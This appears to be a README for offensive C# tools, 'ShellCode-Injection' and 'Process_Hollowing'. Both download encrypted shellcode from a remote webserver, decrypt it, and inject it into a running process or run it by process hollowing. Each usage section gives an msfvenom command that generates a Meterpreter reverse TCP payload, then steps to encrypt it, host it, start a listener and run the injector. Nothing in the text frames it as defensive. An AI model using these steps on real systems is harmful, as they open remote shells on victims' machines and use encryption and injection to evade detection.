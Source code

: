 # File: ShellCode-Injection.cs
  
    Download and decrypt a shellcode from a remote webserver, then inject it to a given process name

# Usage
  
    1. Generate the shellcode

          msfvenom -p windows/x64/meterpreter/reverse_tcp --smallest exitfunc=thread lhost=x.x.x.x lport=xxxx -f raw -o shellcode.bin

    2. Encrypt the shellcode

          .\ShellCode_Encryptor.exe shellcode.bin

    3. Host the encrypted shellcode and start the listener

    4. Execute

          .\ShellCode_Injection.exe <shellcode_Url> <process_name eg: notepad>
          
# File: Process_Hollowing.cs

    Download and decrypt a shellcode from a remote webserver, then execute it using Process Hollowing technique
    
# Usage

    1. Generate the shellcode

          msfvenom -p windows/x64/meterpreter/reverse_tcp --smallest exitfunc=thread lhost=x.x.x.x lport=xxxx -f raw -o shellcode.bin

    2. Encrypt the shellcode

          .\ShellCode_Encryptor.exe shellcode.bin

    3. Host the encrypted shellcode and start the listener

    4. Execute

          .\Process_Hollowing.exe <shellcode_Url>
    
